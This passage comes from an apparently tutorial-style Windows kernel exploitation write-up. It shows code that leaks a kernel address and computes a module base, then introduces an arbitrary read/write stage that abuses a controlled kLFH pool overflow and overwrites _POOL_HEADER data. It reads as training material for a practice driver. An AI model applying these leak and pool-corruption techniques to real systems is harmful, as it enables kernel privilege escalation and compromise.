 ```cpp
			memcpy(&addrKrnl, (UINT64*)((byte*)pOutBuffer + 0x80), sizeof(UINT64));
			printf("\tKernel Address -> [0x%p]\n", addrKrnl);
			printf("\t\t\\__Module base -> [0x%p]\n", addrKrnl - 0x88130);
			if ((addrKrnl & 0xfffff00000000000) == 0) {
				kernel = true;
			}
			break;
		}
		else {
			printf("\nTAG: \"%c%c%c%c\"\n", ((char*)&tag)[0], ((char*)&tag)[1], ((char*)&tag)[2], ((char*)&tag)[3]);
		}

	}

	for (unsigned int u = 0; u < 5000; u++) {
		if (Events[u] != 0) {
			CloseHandle(Events[u]);
			Events[u] = 0;
		}
	}

	return 0;
}
```

## Arbitrary Read/Write
Next up in our exploitation chain is arbitrary read/write, for which we'll abuse a controlled pool buffer overflow. We'll overwrite the next block's data, including its `_POOL_HEADER`, to avoid triggering a BSOD from kernel corruption.

But let's start from the beginning, with the functions we'll use to allocate, set, and retrieve information in the blocks within the kLFH.

To begin with, we need to keep these two structures in mind:
```cpp
typedef struct _ARW_HELPER_OBJECT_NON_PAGED_POOL_NX
{
    PVOID Name;
    SIZE_T Length;
} ARW_HELPER_OBJECT_NON_PAGED_POOL_NX, * PARW_HELPER_OBJECT_NON_PAGED_POOL_NX;

typedef struct _ARW_HELPER_OBJECT_IO
{
    PVOID HelperObjectAddress;
    PVOID Name;
    SIZE_T Length;
} ARW_HELPER_OBJECT_IO, * PARW_HELPER_OBJECT_IO;
```

The first one, `ARW_HELPER_OBJECT_NON_PAGED_POOL_NX` is the kernel mode structure and it is only used on KM address space, the second one, `ARW_HELPER_OBJECT_IO` is the one we are passing from the User mode to the kernel mode.
